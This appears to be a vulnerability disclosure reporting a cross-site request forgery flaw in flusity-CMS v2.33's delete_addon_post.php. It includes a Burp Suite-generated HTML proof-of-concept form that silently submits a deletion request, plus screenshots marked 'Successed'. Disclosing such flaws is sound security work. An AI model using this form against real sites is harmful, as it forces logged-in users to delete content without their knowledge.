 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /cover/addons/social_block_links/action/delete_addon_post.php

![1](https://github.com/bing-d/cms/assets/123786830/6887022d-7ec7-4ebc-9482-c2fbcf626567)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/cover/addons/social_block_links/action/delete_addon_post.php" method="POST">
      <input type="hidden" name="name" value="social&#95;block&#95;links" />
      <input type="hidden" name="id" value="16" />
      <input type="hidden" name="addon&#95;post&#95;id" value="15" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>



```

![2](https://github.com/bing-d/cms/assets/123786830/5628b19a-e451-4c03-8111-4caf15f6aa57)


Successed

![3](https://github.com/bing-d/cms/assets/123786830/6ea00cff-571f-4ea1-b743-96f880416419)
